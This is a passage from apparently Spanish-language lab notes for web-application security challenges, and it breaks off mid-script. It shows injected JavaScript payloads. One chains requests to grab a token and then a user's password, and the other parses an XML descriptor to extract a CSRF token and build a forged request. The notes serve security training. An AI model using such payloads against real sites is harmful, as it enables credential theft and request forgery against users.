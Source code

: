 otra alternativa:

```html
<script>
        let request = new XMLHttpRequest();
        request.onreadystatechange = function() {
            if ((request.readyState === 4) && (request.status === 200)) {
            	//la respuesta es JSON asi que la parseamos
                let items = JSON.parse(request.responseText);
                let tokenid = items.params.token;

                let req = new XMLHttpRequest();
                req.onreadystatechange = function() {
                    if ((req.readyState === 4) && (req.status === 200)) {
                        let newitems = JSON.parse(req.responseText);
                        pass = newitems.resp.password;
                        alert(pass);
                    }
                }

                req.open('GET', '/lab/webapp/jfp/20/getpassword?token=' + tokenid);
                req.send();
            }
        }
        request.open('GET', '/lab/webapp/jfp/20/gettoken?uid=3476');
        request.send();
</script>
```

### MULTI LEVEL XML PARSING

```xml
<apiendpoint>
	<id>Challenge 21</id>
	<endpoint>/lab/webapp/jfp/21/questions</endpoint>
	<params id="uid">
		<uid-param-description>User id of the user</uid-param-description>
		<uid-param-value>3423</uid-param-value>
	</params>
	<params id="token">
		<token-param-description>CSRF Token</token-param-description>
		<token-param-value>7535864923468</token-param-value>
	</params>
</apiendpoint>
```

```html
<script>
        let request = new XMLHttpRequest();
        request.onreadystatechange = function() {
            if ((request.readyState === 4) && (request.status === 200)) {
            	//obtener el endpoint
                let endpoint = request.responseXML.getElementsByTagName('endpoint')[0].firstChild.nodeValue;
                let uid = request.responseXML.getElementsByTagName('uid-param-value')[0].firstChild.nodeValue;
                let csrf_token = request.responseXML.getElementsByTagName('token-param-value')[0].firstChild.nodeValue;

                let req = new XMLHttpRequest();
                let url = endpoint + "?uid=" + uid + "&token=" + csrf_token;
                alert(url);
                req.open('GET', url);
                req.onreadystatechange = function() {
                    if ((req.readyState === 4) && (req.status === 200)) {
                    	
```